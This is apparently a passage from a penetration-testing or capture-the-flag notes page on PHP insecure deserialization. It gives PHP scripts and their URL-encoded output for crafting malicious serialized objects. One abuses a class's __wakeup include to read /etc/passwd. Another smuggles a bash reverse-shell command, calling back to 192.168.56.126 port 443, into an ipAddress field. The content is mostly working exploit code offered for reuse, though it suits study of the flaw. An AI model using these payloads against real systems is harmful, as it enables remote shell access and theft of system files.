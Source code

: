 We execute it and get our serialized data to inject:

{% code overflow="wrap" %}
```php
└─$ php serialize.php
O%3A4%3A%22Page%22%3A1%3A%7Bs%3A10%3A%22%00Page%00file%22%3Bs%3A11%3A%22%2Fetc%2Fpasswd%22%3B%7D
```
{% endcode %}

If a PHP serialization/deseralization function was found, use it to serialize/deserialize an object. Example:

{% code overflow="wrap" fullWidth="true" %}
```php
└─$ cat serialize.php              
<?php                                                                                                                                                                        
                                                                                                                                                                             
class pingTest {                                                                                                                                                             
        public $ipAddress = "; bash -c 'bash -i >& /dev/tcp/192.168.56.126/443 0>&1'";                                                                                               public $isValid = True;                                                                                                                                             
        public $output = "";    
}

echo urlencode(serialize(new pingTest)); 
?>
  
                                                                                                                                                                                                                                                                                                                                                        
└─$ php serialize.php
O%3A8%3A%22pingTest%22%3A3%3A%7Bs%3A9%3A%22ipAddress%22%3Bs%3A55%3A%22%3B+bash+-c+%27bash+-i+%3E%26+%2Fdev%2Ftcp%2F192.168.56.126%2F443+0%3E%261%27%22%3Bs%3A7%3A%22isValid%22%3Bb%3A1%3Bs%3A6%3A%22output%22%3Bs%3A0%3A%22%22%3B%7D
```
{% endcode %}

Another code snippet that works for serializing, copying the structure we saw on index.php source code:

{% code overflow="wrap" fullWidth="true" %}
```php
└─$ cat serialize2.php 
<?php                                                                                                                                                                        
class Page  #class Page content is exactly as we found it on the source code of index.php                                                                                                                                                                 
{                                                                                                                                                                            
        public $file;                                                                                                                                                            
        public function __wakeup()                                                                                                                                               
        {                                                                                                                                                                        
                include($this->file);                                                                                                                                                
        }                                                                                                                                                                        
}

$f = new Page; #instance of the new object for this class
$f->file='/etc/passwd'; #we define a property called file with the attribute/parameter
echo urlencode(serialize($f)); #we serialize and URL-encode it

```